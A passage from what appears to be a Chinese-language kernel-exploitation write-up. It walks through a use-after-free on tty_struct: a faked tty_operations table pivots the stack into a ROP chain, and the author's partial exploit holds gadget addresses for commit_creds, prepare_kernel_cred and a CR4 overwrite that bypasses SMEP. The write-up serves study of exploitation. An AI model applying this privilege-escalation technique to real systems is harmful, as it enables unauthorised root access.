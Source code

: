 ```c
			unsigned int set, unsigned int clear);
	int (*resize)(struct tty_struct *tty, struct winsize *ws);
	int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
	int (*get_icount)(struct tty_struct *tty,
				struct serial_icounter_struct *icount);
#ifdef CONFIG_CONSOLE_POLL
	int (*poll_init)(struct tty_driver *driver, int line, char *options);
	int (*poll_get_char)(struct tty_driver *driver, int line);
	void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
	const struct file_operations *proc_fops;
};
```
可以看到其中write的函数指针应该在索引为7的位置。因此我们将这里修改为mov rsp, rax的指针。这里，原资料巧妙构造了tty_operations的结构使得其能成功触发ROP。

```c
    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;
```
首先，使用write函数触发栈迁移，此时栈应该在fake_op的头部位置。之后ret到pop rax ; ret的gadget，将rax赋值为事先构造好的ROP链，然后ret。**注意：ret后面又是一个mov rsp, rax，这就使得rsp自然地被迁移到了ROP上。**至此，一切顺理成章地完成了。

笔者无比欣喜地开始测试，想看到那个梦寐以求的'#'出现，但是kernel却甩给我一堆报错信息，1s之内难以截屏，但大致说的是：unable to handle kernel paging request。

![](20.png)
![](21.png)
又回去用git库中带的exp试了一下，没有问题啊。什么问题呢？终端在最后显示的信息中，有笔者写入到程序中的标志信息，即已经进入了调用system("/bin/sh")的函数，但是还是报错了，报的错还不一样。。。。。。
给自己代码稍微该了下。好，现在报错是一样的且不会重启了：

```
[+] Congratulations! root got......
[    4.253787] traps: uaf.o[90] general protection ip:4110a2 sp:7ffd42a4da38 error:0 in uaf.o[401000+96000]
[    4.255947] device release
[    4.256551] bad magic number for tty struct (5:2) in tty_release
Segmentation fault
```

注意到成功的elf文件中，退出root后也会产生同样的错误。

![](22.png)
更奇妙的是，当我在此基础上添加几个printf时，居然又出现了kernel panic错误。推测是编译器问题，暂时无法解决(ノへ￣、)，但是原理算是全部清楚了。

最终exp：（能够执行到shell函数但无法提权）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

const unsigned long long commit_creds = 0xffffffff810a1420, prepare_kernel_cred = 0xffffffff810a1810;
#define movcr4rdi_poprbp_ret 0xffffffff81004d80	// need to move 0x6f0 to cr4
#define swapgs_poprbp_ret 0xffffffff81063694
#define iretq 0xffffffff8181a797
```